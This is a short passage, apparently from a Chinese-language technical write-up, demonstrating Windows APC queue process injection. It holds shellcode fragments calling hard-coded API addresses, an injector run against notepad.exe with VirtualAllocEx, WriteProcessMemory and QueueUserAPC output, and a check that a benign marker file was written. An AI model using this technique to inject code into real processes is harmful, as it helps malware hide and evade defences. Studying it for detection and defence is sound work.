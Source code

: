 ```c
mov rax, <WriteFile_addr>                     // 硬编码 API 地址
call rax                                      // 写入文件

mov rcx, r15                                  // hFile
mov rax, <CloseHandle_addr>                   // 硬编码 API 地址
call rax                                      // 关闭句柄

xor rcx, rcx                                  // dwExitCode = 0
mov rax, <ExitThread_addr>                    // 硬编码 API 地址
call rax                                      // 退出线程
```

**启动新目标进程**:
```bash
$ notepad.exe &
$ tasklist | grep -i "notepad.exe" | tail -1
notepad.exe                 112568 Console                    1     18,312 K
```

**执行注入**:
```bash
$ ./build/apc_queue_injection.exe 112568 build/apc_verify_shellcode.bin

========================================
  APC Queue Injection
  向所有线程的 APC 队列注入 shellcode
========================================

[+] 已读取 shellcode: 350 字节
[*] 目标进程 PID: 112568

[*] 步骤 1: 打开目标进程...
[+] 已打开进程句柄: 0x000001B8

[*] 步骤 2: 分配内存并写入 shellcode...
[+] VirtualAllocEx 成功: 0x000002D4E1A90000
[+] WriteProcessMemory 成功: 350 字节

[*] 步骤 3: 枚举目标进程的所有线程...
[+] 找到 98 个线程

[*] 步骤 4: 向每个线程的 APC 队列注入 shellcode...
  线程 106256: APC 已入队
  线程 42448: APC 已入队
  线程 91776: 无法打开线程 (错误: 87)
  线程 110792: 无法打开线程 (错误: 87)
  ...
[+] 成功向 2/98 个线程注入 APC

[*] 提示: shellcode 将在线程进入 alertable 状态时执行
```

**验证结果**:
```bash
$ cat /c/Users/Public/apc_queue_injection_verified.txt

APC Queue Injection Verified!
Technique: QueueUserAPC to all threads
Method: Asynchronous Procedure Call
Status: Executed when thread entered alertable state!
```
